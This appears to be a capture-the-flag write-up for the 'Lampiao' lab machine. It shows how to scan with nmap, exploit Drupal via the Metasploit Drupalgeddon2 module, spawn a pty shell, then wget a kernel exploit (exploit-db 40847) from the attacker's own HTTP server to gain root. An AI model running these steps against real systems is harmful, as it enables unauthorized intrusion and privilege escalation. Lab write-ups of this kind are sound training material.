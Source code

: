 # Lampiao
Points - 5  
Difficulty - Easy
---

As always we first start with scanning the  ip address      
```
$ nmap -A -p- ip_address
```
The full port scan shows a Drupal interface on port 1898

![](images/scan1.png)

Lets fire up metasploit and check if there's an exploit     
```
msf6 > search drupal 7
```
From googling Drupal 7 exploit we find that there's an exploit called **Drupalgeddon2**.      
Select the one with Drupalgeddon2 => **exploit/unix/webapp/drupal_drupalgeddon2**       
You can check the requirements needed by just typing in     
```
show OPTIONS
```
For setting the parameters use
```
set parameter ip_address/port
```
Set the RHOSTS, RPORTS correctly and don't forget that for LHOSTS you have to enter the ip from the vpn pack and finally enter **exploit** or **run** for metasploit to run the exploit         

![](images/meterpreter1.png)

Use the below command to get a python interactive shell
```
python -c "import pty; pty.spawn(\"/bin/bash\")"
```   

I checked the kernel version on the system      

![](images/kernel.png)      

Googling an exploit for the version I found one on [exploit-db](https://www.exploit-db.com/exploits/40847). I downloaded this file onto my local computer and hosted a python server in that directory to wget onto the target machine.     

I know downloading directly onto the target machine would have been easier but for some reason it was not connecting to the exploit-db site.

You can setup a local python server using
```
$ python3 -m http.server port
```

Download the file onto the /tmp directory
```
wget http://your_ip_address:port/40847.cpp
```

Follow the instructions in the Cpp file to run the exploit.   

After compiling and running the file, voila we are root.
The command to compile is given in the exploit cpp file, use that.

![](images/root.png)

Navigate to the root and home directories to find the flags.
